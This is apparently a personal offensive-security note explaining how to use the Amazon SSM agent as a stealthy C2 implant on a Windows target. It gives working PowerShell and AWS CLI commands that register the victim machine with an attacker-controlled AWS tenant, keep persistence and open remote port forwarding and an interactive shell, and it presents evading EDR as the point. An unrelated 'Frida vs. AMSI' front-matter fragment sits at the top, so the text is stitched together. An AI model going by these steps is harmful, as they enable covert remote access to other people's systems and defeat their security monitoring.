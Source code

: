 ```yaml
---
title: Frida vs. AMSI
description: Let's use Frida to explore all the different ways we can patch or break the Anti-Malware Scan Interface.
---
```


# Using Amazon SSM as a C2 implant (Windows)

From my personal notes. Communication with the AWS API is often ignored by EDR, and the SSM agent is a legitimate utility that has a business use case in many environments. Using standard enterprise tooling instead of signature C2 frameworks is a great way to maintain stealthy persistence in a heavily monitored environment.

Step 1: Clone from [https://github.com/aws/amazon-ssm-agent](https://github.com/aws/amazon-ssm-agent) and build for Windows.
Step 2: Transfer all binaries from appropriate release folder to target machine. Put them in `C:\Program Files\Amazon\SSM\` as admin.
Step 3: Log into the AWS console for your own tenant. Navigate to Systems Manager, and from there to *Hybrid Activations*.
Step 4: Create a new hybrid activation. Record the activation code and ID.

Step 5: If required, set proxy information on the target machine:

```powershell
set http_proxy=http://hostname:port
set https_proxy=http://hostname:port
```

Step 6: Using a local administrator account, register the target machine with AWS:

```powershell
.\amazon-ssm-agent.exe -region "<region>" -id "<activation id>" -code "<activation code>" -register
```

Step 7: Invoke the agent as a local administrator:

```powershell
.\amazon-ssm-agent.exe
```

You can now invoke run documents remotely on the machine as long as the agent is running. For example, to set up port forwarding:

```sh
aws ssm start-session --target <instance-id> --document-name AWS-StartPortForwardingSession --parameters '{"portNumber":["80"],"localPortNumber":["9999"]}'
```

If you want to use the interactive session manager shell, also known as "Agent for Session Manager", go to [https://github.com/rprichard/winpty/](https://github.com/rprichard/winpty/) and download the latest release. Then Transfer `winpty.dll` and `winpty-agent.exe` to `C:\Program Files\Amazon\SSM\Plugins\SessionManagerShell\`. Note that it's only supported on Windows Server.